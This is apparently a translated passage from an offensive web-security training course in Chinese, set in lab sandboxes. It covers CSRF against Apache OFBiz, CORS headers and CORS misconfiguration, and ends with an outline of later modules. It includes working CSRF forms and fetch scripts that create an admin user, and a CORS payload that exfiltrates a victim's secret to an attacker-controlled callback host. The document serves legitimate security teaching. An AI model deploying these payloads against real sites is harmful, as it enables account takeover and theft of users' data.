我们需要发送第二个 POST 请求才能将新用户添加到安全组。为此，我们可以尝试通过钓鱼攻击将用户引导至第二个漏洞利用页面。或者，我们可以使用一个页面，通过两个表单发送POST 请求。然而，这种方案可能会出现问题。我们可以使用JavaScript 提交表单，但 POST 请求的时机至关重要。我们需要应用程序先处理完创建用户的第一个请求，然后才能将用户添加到组。

让我们将现有的 HTML 页面复制到一个名为ofbiz1.html 的新文件中。

```bash
kali@kali:~$ sudo cp /var/www/html/ofbiz.html /var/www/html/ofbiz1.html

```

首先，在现有表单之后，于 HTML 主体中添加一个新表单。该表单用于将用户添加到 SUPER组。由于我们需要提交两个表单，因此将两个表单的目标都设置为“_blank”，以便浏览器在新标签页中打开结果。我们还需要将此设置添加到原始表单中。

```html
...
<form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
<input type="hidden" name="userLoginId" value="csrftest">
<input type="hidden" name="partyId">
<input type="hidden" name="groupId" value="SUPER">
<input type="hidden" name="fromDate_i18n">
<input type="hidden" name="fromDate">
<input type="hidden" name="thruDate_i18n">
<input type="hidden" name="thruDate">
</form>

```

接下来，我们将创建一个 JavaScript 函数来提交表单。我们需要添加一个*head*元素来包含我们的脚本，并更新 body标签的*onload*事件以调用新的 JavaScript 函数。

```html
<html>
<head>
<script>
  function submitForms() {
    document.forms['csrf'].submit();
    document.forms['csrf2'].submit();
    return false;
  }
</script>
</head>
<body onload="submitForms();" >
...

```

这种方法存在问题。某些 JavaScript 调用可能是异步的，这意味着表单可能几乎同时提交。如果服务器先处理第二个表单请求，则会失败，因为第一个表单包含我们的新用户信息。如果目标用户的网络连接不稳定，就可能发生这种情况。我们稍后会改进这种攻击，但现在先按原样尝试一下。我们需要确保在 OFBiz中的会话仍然处于活动状态，然后再在新标签页中加载新的 CSRF 页面。



我们的攻击载荷打开了两个新标签页，第二个标签页位于“编辑用户登录安全组”页面。攻击似乎成功了，但我们可以通过注销当前会话，然后使用新创建的帐户登录来验证这一点。

我们将点击右上角的头像，然后点击*“注销”*。在出现的页面上，我们将点击*“登录”*返回登录页面，并提交我们 通过 CSRF 攻击创建的帐户凭据。



很好。我们的攻击成功了，但由于打开了多个页面，有效载荷有点杂乱。我们可能只是运气好，请求时机恰到好处，所以下一节我们会改进攻击，使其更加可靠。

在继续下一节之前，请务必按照上述步骤操作，利用 CSRF 漏洞创建一个新用户，并将该用户添加到 SUPER 组。

与其使用两种表单，不如直接使用 JavaScript 发送请求，而无需将浏览器导航离开有效载荷页面。我们将在/var/www/html 目录下创建一个名为 ofbiz2.html 的新 HTML 页面。

我们将从基本结构和一些常用变量开始。

```html
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";
</script>
</head>
<body></body>
</html>

```

我们的文件首先在脚本块中声明了几个变量。以这种方式使用变量可以使漏洞利用程序更加模块化，也更容易更新。

接下来，我们将在 script 标签内创建两个函数。第一个函数将发送创建新用户的请求。第二个函数将发送请求，将新用户添加到 SUPER安全组。最后，我们将在 script 代码块的末尾显式调用第一个函数，以便浏览器在加载页面时执行我们的代码。

```html
...
function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
...

```

我们使用 Fetch API 以 “no-cors” 模式发送 POST 请求。这种模式会将我们限制为只能使用 “application/x-www-form-urlencoded” 作为内容类型（Content-Type），但这不会对我们的利用造成影响，因为目标应用原生的正常请求使用的就是这个值。

为了确保攻击成功，我们将 `credentials` 属性设置为 “include”，以此来强制指示浏览器在发起请求时必须携带 Cookie。尽管进行了这样的设置，但在某些特定情况下，浏览器仍可能拒绝对外发送 Cookie，这主要取决于被请求域名的 CORS 设置，以及相关 Cookie 本身的 `SameSite` 属性策略。我们将在本学习模块的后续部分深入探讨 CORS 的相关机制。

再次强调，在加载我们的 CSRF 攻击页面之前，我们必须确保在靶机（OFBiz）中拥有一个处于活跃状态的合法登录会话。

让我们回到 Burp Suite 中检查一下 HTTP 历史记录，以确认我们的 JavaScript 代码是否成功执行，并操纵浏览器发出了预期的请求。



看来我们的浏览器在请求中没有包含任何 cookie。让我们检查一下浏览器的控制台是否有错误。我们可以使用快捷键 C+B+i 打开控制台，然后点击*“控制台”*。



部分消息已移至“问题”面板。请点击*“查看问题”*了解更多详情，然后点击披露小部件展开详细信息和受影响的 Cookie。


我们的浏览器没有发送这些 Cookie，因为它们没有设置*SameSite*属性。Chromium 默认将没有此属性的 Cookie 设置为*SameSite=Lax*，这会阻止 Cookie在跨站点上下文中发送。

我们来回顾一下 OFBiz 设置了哪些 cookie。我们可以查看最近一次失败的 CSRF 攻击，因为 cookie 是在响应中设置的。

```http
Set-Cookie: JSESSIONID=EF8E54A634E9C7F2BC98B202F5FAD355.jvm1; Path=/webtools; Secure; HttpOnly
Set-Cookie: OFBiz.Visitor=10726; Max-Age=31536000; Expires=Sat, 18-Jun-2022 16:16:18 GMT; Path=/; Secure; HttpOnly

```

OFBiz 使用 JSESSIONID cookie 来跟踪用户会话。设置此 cookie 时
未指定*SameSite*属性。

让我们测试一下，如果手动将浏览器开发者工具中的*SameSite*设置为“None” ，攻击是否有效。我们需要切换到加载了 OFBiz 的标签页，然后再次打开开发者工具。为了方便操作，我们可以将开发者工具移动到浏览器窗口底部。点击三个点，然后点击*“停靠到底部”*即可。



接下来，我们将点击*“应用程序”*，然后*点击“Cookie”*，最后点击*https://ofbiz:8443*来访问 OFBiz 应用程序设置的 Cookie。



要设置JSESSIONID cookie 的*SameSite*属性，我们需要双击*SameSite*列，输入“None”，然后按 I保存更改。



现在我们可以返回打开 CSRF 页面的浏览器标签页并刷新页面。让我们检查一下 Burp Suite，看看这次浏览器是否发送了 JSESSIONID cookie。

浏览器在请求中包含了会话 cookie，我们的攻击成功了。让我们将 JSESSIONID 的*SameSite*属性更改为
“Lax”，重新加载 CSRF 页面，然后检查 Burp Suite。



与我们最初的尝试一样，浏览器没有发送会话cookie。这个例子展示了*SameSite* 属性在防止 CSRF 攻击方面的有效性。

如前所述，*SameSite*属性的实现很大程度上取决于浏览器，而目前该属性正处于广泛应用阶段。一些不包含默认*SameSite*设置的旧版浏览器会自动启用 cookie。因此，了解受害者使用的浏览器至关重要。

在继续下一节之前，请重现上述步骤，并尝试使用 JSESSIONID cookie 的不同*SameSite*值。

> [!TIP]
>
> 添加一个新的 JavaScript 函数，通过检查 `navigator.userAgent`[79] 属性来判断当前访问页面的浏览器类型。利用该信息来决定页面是执行 `fetch` 攻击载荷还是表单（form）攻击载荷。

### 5.5 跨域资源共享（CORS）

本学习单元涵盖以下学习目标：

1. 理解 CORS 的概念
2. 理解 CORS 请求中常见的 HTTP 头
3. 理解 CORS 响应中常见的 HTTP 头

简而言之，CORS 通过 HTTP 响应头向浏览器发出指令，明确指出哪些源（Origins）被允许访问服务器上的资源。它允许 Web 应用程序有意地放宽作用于自身的同源策略（SOP）限制，具体方法是显式指定哪些外部域名可以访问资源，以及允许以何种方式访问这些资源。

请记住，SOP 只是拦截 JavaScript 和浏览器读取跨源资源的响应，但它并不会阻止这些跨源请求的发出。如果 CORS 配置不当，攻击者就可以像利用 CSRF 那样，通过客户端攻击在用户的会话上下文中执行未授权操作。在探讨具体的错误配置之前，我们先来回顾一些 CORS 的基础知识。

在发送实际的跨源请求之前，浏览器通常会使用 HTTP 的 `OPTIONS` 方法向目标地址发起一个**预检请求 (Preflight request)**，以此来确认发起请求的源域名是否被目标服务器允许执行该操作。

```httpp
OPTIONS /foo HTTP/1.1
Host: megacorpone.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Connection: keep-alive
Origin: https://offensive-security.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-UserId

```

所有的跨源请求（包括预检请求）都会包含一个 `Origin` 头，其值为发起请求的域名。预检请求还可能包含 `Access-Control-Request-Method` 和 `Access-Control-Request-Headers` 请求头，用于向服务器声明浏览器在后续的实际请求中将会使用的 HTTP 方法和自定义头。服务器接收到预检请求后，将处理这些请求头，并返回其允许的值。

需要注意的是，并非所有的跨源请求都会触发预检机制。某些特定类型的请求被称为**简单请求 (Simple requests)** [80]，通常包括标准的 GET、HEAD 和 POST 请求。然而，如果使用了其他 HTTP 方法（如 PUT、DELETE）、附加了自定义 HTTP 请求头，或者采用了非标准内容类型（Content-Type，如 `application/json`）的 POST 请求，浏览器就会强制发起预检请求。

服务器可以通过设置多个响应头  来启用并控制 CORS 策略。让我们复习一下最常见的几个：

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 23 Jun 2021 17:38:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Origin: https://offensive-security.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: X-UserId
```


1. **`Access-Control-Allow-Origin`**：该头用于指示允许哪些源访问服务器资源。如果该头使用了通配符 (`*`)，则表示允许任何源访问该资源。通常，服务器应当仅对被视为完全公开的资源使用此设置。该头部也可以指定一个单一的具体源。如果应用程序需要允许多个特定源访问，后端逻辑必须根据请求头中的 `Origin` 动态校验并返回相应的域名。
2. **`Access-Control-Allow-Credentials`**：该头指示浏览器是否应该在请求中包含凭证信息（例如 Cookie 或 HTTP 认证头）。此请求头唯一有效的值是 `true`。如果服务器不允许携带凭证，不需要将其设置为 `false`，直接省略该响应头即可。**安全限制：\**如果 Web 应用程序希望将该值设置为 `true`，则它\**绝对不能**在 `Access-Control-Allow-Origin` 头中使用通配符 (`*`)，必须明确指定具体的域名。此外，无论目标服务器的 CORS 策略如何放宽，浏览器始终会强制执行 Cookie 自身的 `SameSite` 属性。换句话说，如果某个 Cookie 配置了 `SameSite=Lax`，即使预检请求表明目标服务器允许携带凭证，浏览器也绝对不会发送该 Cookie。
3. **`Access-Control-Allow-Methods`**：该头指示跨源请求允许使用哪些 HTTP 方法。该头部的值可以包含一个或多个方法，使用逗号分隔。
4. **`Access-Control-Allow-Headers`**：类似地，该头指示跨源请求允许包含哪些自定义 HTTP 头。其值同样为一个或多个请求头名称的逗号分隔列表。浏览器会认为某些特定的头部是安全的（例如标准的 Content-Type），因此默认允许在跨源请求中使用它们 [82]。但是，如果要允许在 CORS 请求中携带身份验证头（`Authorization`）或其他自定义头，服务器必须通过该响应头显式地进行授权。

------

### 5.6 不安全 CORS 策略漏洞利用

本学习单元涵盖以下学习目标：

1. 了解如何识别 CORS 响应头
2. 了解如何利用“信任任意源”的 CORS 策略
3. 了解如何利用“不完整允许列表（Allowlist）”的 CORS 策略

由于 CORS 的核心机制就是放宽同源策略，因此，如果启用了 CORS 的网站在配置上存在任何弱点或错误，都会使其自身和用户暴露在类似 CSRF 的跨站攻击风险之下。我们将回到之前的沙盒应用程序，详细检查这些错误的配置，并探讨它们可能带来的实际攻击场景。

首先，请确保已打开 Burp Suite 并使用其内置浏览器。接下来，访问沙盒应用中测试 CORS 功能的页面：`https://cors-sandbox/dashboard`。



除了支持 CORS 测试外，该应用程序还允许我们手动配置会话 Cookie 的 `HTTPOnly`、`Secure` 和 `SameSite` 属性。就目前而言，请在下拉菜单中将 `SameSite` 选择为“None”，并将 `Secure` 和 `HTTPOnly` 都设置为“True”，然后点击“Get Cookie”。

我们可以使用 Burp Suite 的 HTTP 历史记录来验证 Cookie 是否已按照我们选择的属性被正确设置。



接下来，在页面上点击“获取代码 (Get Code)”。当我们在 Burp Suite 中审查这一个请求的响应包时，会发现其中包含了两个 CORS 响应头：

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 15 Jul 2021 17:13:23 GMT
Content-Type: application/json
Content-Length: 62
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: *

{"code":"6d84973e-5995-4557-95ed-a179beb9b5a4","status":"ok"}


```

`Access-Control` 相关响应头的出现，明确表明该应用程序在某种层面上启用了 CORS 支持。接下来，我们将使用 Burp Suite 的 Repeater（中继器）模块来进一步测试该应用程序。在 Burp Suite 的“HTTP 历史记录”选项卡中，右键点击对 `/code` 的 GET 请求，然后选择“发送到 Repeater (Send to Repeater)”。



接下来，我们点击*“中继器”*选项卡，然后点击*“发送”*将请求发送到服务器。



我们现在有了可用于进一步测试的基准请求和响应。下一步是确定应用程序信任哪些来源。

在继续下一节之前，请务必重现上述步骤，以在 Burp Suite 中建立基线请求和响应。

我们知道该应用程序支持 CORS。让我们确定是否可以从外部域访问密钥。如果我们向/code 发送一个没有有效 SessionCookie 的 GET 请求，我们会得到以下响应。

```http
HTTP/1.1 401 UNAUTHORIZED
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 15 Jul 2021 17:17:00 GMT
Content-Type: application/json
Content-Length: 62
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: *

{"code":"You must be logged in to do that.","status":"error"}

```

由于我们需要进行身份验证才能获取code，因此我们需要在请求中发送有效的 SessionCookie（会话 Cookie）。如果 CORS 请求的响应中缺失了 `Access-Control-Allow-Credentials` 头，浏览器将不会在跨源请求中携带凭证。此外，如果 `Access-Control-Allow-Origin` 头被设置为通配符 (`*`)，那么即使设置了 `Access-Control-Allow-Credentials` 头，浏览器也会判定该组合不合法并拒绝请求（因为允许携带凭证时，必须明确指定信任的具体域名，绝不能是通配符）。

我们最初的请求并没有包含 `Origin` 头。让我们尝试添加一个，看看应用程序会如何响应。我们将在 Repeater 中点击“返回 (Go back)”，直到找到我们的基线请求（初始请求）。我们将在此请求上添加一个设置为 `hellocors` 的 `Origin` 头，然后点击“发送 (Send)”。



响应包中包含了我们手动设置的 Origin 值，并且 `Access-Control-Allow-Credentials` 被设置为了 "true"。

起初，这看起来可能有些奇怪，但在实际业务中，开发者确实有正当理由需要允许多个不同的域名以经过身份验证的方式访问其内部资源。正如我们之前所强调的，当 `Access-Control-Allow-Credentials` 设置为 "true" 时，`Access-Control-Allow-Origin` 是绝对不允许使用通配符 (`*`) 的。如果开发者希望他们的应用程序同时支持多个跨域源（比如主站和多个不同的业务子域名），他们就必须自己“造轮子”来绕过这个限制。为了图省事，一种常见的错误做法就是：服务器不再返回通配符，而是直接读取 HTTP 请求里的 `Origin` 值，并将其原封不动地反射回响应头中。

既然确认了目标应用存在这种“无条件反射 Origin”的漏洞配置，我们理论上就能够从任何外部域名（包括黑客控制的域名）调用受保护的 `/code` 端点，并读取其中的敏感数据。

为了实施这个攻击，我们需要在我们的 Kali 攻击机上创建一个恶意的 HTML 页面。我们将新建一个名为 `cors1.html` 的文件，填入相应的攻击代码，并将其部署到 Kali 机器的 Web 服务目录 `/var/www/html/` 下。

```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    console.log(data);
  });
}

get_code();
</script>
</head>
<body></body>
</html>

```

该页面中的 JavaScript 函数使用 Fetch API 向 `/code` 端点发送一个 GET 请求，请求启用了 CORS 模式并明确包含了凭证（Cookies）。随后，该函数会将 CORS 请求返回的 JSON 响应体记录（打印）到控制台中。

在确保 Apache 服务正在运行之后，让我们在浏览器中打开一个新标签页，访问这个 CORS 测试页面（即部署在 Kali 上的恶意网页）。同时，我们需要确保在另一个标签页中与练习应用程序保持着有效的登录会话（以保证浏览器里存有合法的 Session Cookie）。

由于我们的 CORS 漏洞利用脚本在后台静默执行，页面上并不会有直接的视觉反馈，因此，我们需要打开浏览器的控制台来检查结果。



这个示例充分证明了：运行在不同域名下的 JavaScript 代码能够成功读取 CORS 请求的响应结果。在真实世界的攻击场景中，我们自然无法亲自盯着受害者的浏览器控制台看。然而，既然恶意 JavaScript 已经在前端内存中拿到了这个响应数据，我们就可以进一步更新页面的代码逻辑，将这个敏感的数据片段（secret code）发送到我们指定的任意域名。

接下来，让我们复制一份之前的 HTML 页面，并将其命名为 `cors2.html`。我们将修改其中的 JavaScript 函数，在获取到数据后，再发起一次网络请求，把窃取到的结果直接“外带 (Exfiltrate)”回我们的 Kali 虚拟机。

```javascript
...
function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://your ip address/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}
...

```

我们在请求字符串中包含了带有 JSON 响应体的 Fetch 调用。我们使用了 `JSON.stringify()` 将 JSON 格式的响应数据转换为字符串，然后调用 `encodeURIComponent()` 函数对任何可能导致 URL 无效的特殊字符进行编码。

让我们在浏览器中访问这个页面进行测试。与之前一样，页面上没有任何直观的反馈表明发生了什么。让我们转到 Kali 机器上，检查 Apache 服务器的 `access.log` 日志。

```bash
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
127.0.0.1 - - [23/Jun/2021:18:07:26 -0400] "GET /cors2.html HTTP/1.1" 200 593 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36"
127.0.0.1 - - [23/Jun/2021:18:07:26 -0400] "GET /favicon.ico HTTP/1.1" 404 451 "http://localhost/cors2.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36"
192.168.48.3 - - [23/Jun/2021:18:07:26 -0400] "GET /callback?%7B%22code%22%3A%226d84973e-5995-4557-95ed-a179beb9b5a4%22%2C%22status%22%3A%22ok%22%7D HTTP/1.1" 404 454 "http://localhost/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36"

```

太棒了！我们的恶意 CORS 页面成功代表受害者用户发送了获取验证码的请求，并将该验证码外带发送到了我们的 Kali 机器上。虽然在这个实验中我们同时扮演了攻击者和受害者的角色，但这个例子生动地演示了如何利用宽松的 CORS 设置来窃取用户数据。在真实世界的 Web 应用程序中，攻击者可以利用 CORS 漏洞窃取高度敏感的数据，如私人消息、个人资料或银行账号。他们还可以利用 CORS 冒充用户执行状态变更操作，例如转账或修改密码，从而彻底控制受害者的账户。

> [!NOTE]
>
> **攻击者的最终目的**以及**同源策略（SOP）对它们的限制程度**
> CSRF 只能“写”（执行动作），而 CORS 漏洞让你能“读”（窃取数据）。

`Access-Control-Allow-Origin` 响应头在规范上只能指定一个单一的域名。当一个应用程序需要支持来自多个不同源的 CORS 请求时，后端就必须包含相应的服务器端逻辑，以便用合适的域名值进行响应。通常的做法是：应用程序会检查 HTTP 请求头中的 `Origin` 字段，判断它是否与内部的“允许列表 (Allowlist/Whitelist)”相匹配；如果匹配，就在后续响应的 `Access-Control-Allow-Origin` 头中填入该值。如果应用程序在这个功能模块中存在逻辑缺陷，就会导致 CORS 策略配置错误。

导致这种配置错误的最常见的两种逻辑缺陷是：仅仅检查请求的 `Origin` 头是否“包含 (includes)”**某个预设值，或者是否**“以某个预设值结尾 (ends with)”，一旦满足条件就反射该头部的值。

我们的练习应用程序中包含另一个存在允许列表逻辑缺陷的 API 端点。接下来，让我们使用 `curl` 命令行工具向该端点发送请求进行探测。

我们将使用 `-X "OPTIONS"` 参数来指定发送 OPTIONS 预检请求，使用 `-i` 参数让输出结果包含 HTTP 响应头，使用 `-k` 参数允许在使用 SSL/HTTPS 时连接到不受信任的证书服务器，最后加上目标 URL。

```bash
kali@kali:~$ curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist 
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Thu, 15 Jul 2021 17:51:21 GMT
server: waitress
content-length: 0

```

我们在请求中没有指定 `Origin` 头，但服务器返回了一个 `Access-Control-Allow-Origin` 响应头，其值为 `"https://offensive-security.com"`。这可能意味着该域名是唯一被允许的源。

不过，我们可以尝试发送一个包含该域名“变体”的 `Origin` 头，看看服务器会如何反应。我们将再次使用 `curl` 命令，并通过 `-H "Origin: http://www.offensive-security.com"` 来手动添加一个修改后的 `Origin` 头。

```bash
kali@kali:~$ curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.com" -k https://cors-sandbox/allowlist
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.offensive-security.com
content-type: text/html; charset=utf-8
date: Thu, 15 Jul 2021 17:52:38 GMT
server: waitress
content-length: 0

```

服务器返回的 `Access-Control-Allow-Origin` 响应头的值与我们刚刚提交的 Origin 值完全匹配，但到目前为止，我们仅仅测试了修改协议（将 HTTPS 改为 HTTP）和添加子域名（添加了 `www.`）。接下来，让我们尝试修改域名的**末尾部分**（后缀）。

```bash
kali@kali:~$ curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.net" -k https://cors-sandbox/allowlist</cu>
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
<cr>access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Thu, 15 Jul 2021 17:53:48 GMT
server: waitress
content-length: 0

```

服务器返回了原始的 `Access-Control-Allow-Origin` 值。看来修改**顶级域名 (TLD)**[83] 会导致服务器返回默认值。在代码清单 25 中，我们成功添加了子域名，但请注意默认值本身是不包含子域名的。

如果我们通过在域名前面添加内容来改变域名本身，会发生什么呢？让我们试一试。再次使用 `curl`，并将 `Origin` 头的值修改为 `"http://fakeoffensive-security.com"`。

```bash
kali@kali:~$ curl -X "OPTIONS" -i -H "Origin: http://fakeoffensive-security.com" -k https://cors-sandbox/allowlist</cu>
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
<cr>access-control-allow-origin: http://fakeoffensive-security.com
content-type: text/html; charset=utf-8
date: Thu, 15 Jul 2021 17:54:33 GMT
server: waitress
content-length: 0

```

服务器接受了我们发送的 Origin 值，并将其设置在了 `Access-Control-Allow-Origin` 响应头中。这说明应用程序允许任何以 `"offensive-security.com"` **结尾**的域名，其初衷可能是为了兼容各种子域名。然而，由于它没有校验域名开头是否带有“点号 (`.`)”，只要我们构造的域名以该字符串结尾，就可以完全改变域名的主体。

这种类型的配置错误利用起来可能稍显困难，因为攻击者需要注册一个特定的域名来实施攻击。不过，一旦拥有了域名，编写 HTML 页面和 JavaScript 来实施 Payload 利用的过程，与我们在上一节中学习的内容基本一致。

------

## SQL 入门 (Introduction to SQL)

在本学习模块中，我们将涵盖以下学习单元：

- SQL 入门
- 枚举 MySQL 数据库
- 枚举 Microsoft SQL Server 数据库
- 枚举 PostgreSQL 数据库
- 枚举 Oracle 数据库

在本模块中，我们将回顾**结构化查询语言 (SQL)** [84]。我们将从学习基本的 SQL 语法开始。掌握基础知识后，我们将讨论如何使用特定的数据库查询语句来枚举四种常见的数据库。

随后的学习模块将专门讲解 **SQL 注入 (SQL injection)** [85]——这是一种常见的 Web 漏洞。内容将包括多种发现和利用技术、一款自动化 SQL 注入攻击工具，以及针对真实应用程序的案例研究。

在本模块的学习过程中，我们将主要使用 **SQL 沙盒 (SQL Sandbox)**，这是一个可以访问多个数据库的定制沙盒应用程序。

我们将通过 Kali Linux 虚拟机上的 `/etc/hosts` 文件记录来访问此应用程序。

## 6、SQL 基础入门
### 6.1 SQL 整体概述
### 6.2 MySQL 数据库信息枚举
### 6.3 SQL Server 数据库信息枚举
### 6.4 PostgreSQL 数据库信息枚举
### 6.5 Oracle 数据库信息枚举

## 7、SQL 注入漏洞
### 7.1 SQL 注入基础入门
### 7.2 SQL 注入漏洞检测
### 7.3 SQL 注入漏洞利用
### 7.4 自动化工具导出数据库数据
### 7.5 案例实战：Piwigo 报错型 SQL 注入

## 8、目录遍历攻击
### 8.1 目录遍历漏洞概述
### 8.2 特征参数识别方法
### 8.3 相对路径与绝对路径
### 8.4 目录浏览漏洞
### 8.5 目录遍历靶场实操
### 8.6 案例实战：Home Assistant
### 8.7 知识点总结收尾

## 9、XML 外部实体注入 XXE
### 9.1 XML 基础入门
#### 9.1.1 内部实体
#### 9.1.2 外部实体
#### 9.1.3 参数实体
### 9.2 XML 外部实体漏洞原理
### 9.3 XXE 漏洞测试方法
### 9.4 案例实战：Apache OFBiz XXE 漏洞

## 10、服务端模板注入 SSTI 发现与利用
### 10.1 模板引擎介绍
### 10.2 Twig 模板：漏洞发现与利用
### 10.3 Apache Freemarker 模板：漏洞发现与利用
#### 10.3.1 拓展进阶技巧
### 10.4 Pug 模板：漏洞发现与利用
### 10.5 Jinja 模板：漏洞发现与利用
### 10.6 Mustache / Handlebars 模板：漏洞发现与利用
### 10.7 案例实战：Halo 建站系统
### 10.8 案例实战：Craft CMS + Sprout Forms

## 11、命令注入漏洞
### 11.1 命令注入漏洞发现
### 11.2 常见防护机制绕过
### 11.3 信息枚举与漏洞利用
### 11.4 案例实战：OpenNetAdmin (ONA)

## 12、服务端请求伪造 SSRF
### 12.1 SSRF 基础入门
### 12.2 SSRF 漏洞测试
### 12.3 SSRF 漏洞利用
### 12.4 案例实战：Group Office

## 13、不安全直接对象引用 IDOR
### 13.1 IDOR 漏洞基础入门
### 13.2 沙箱环境 IDOR 漏洞利用
### 13.3 案例实战：OpenEMR

## 14、综合实战：Web应用渗透测试全流程
### 14.1 WEB-200 挑战靶机介绍
### 14.2 Web 应用信息枚举
### 14.3 身份认证绕过
### 14.4 远程代码执行 RCE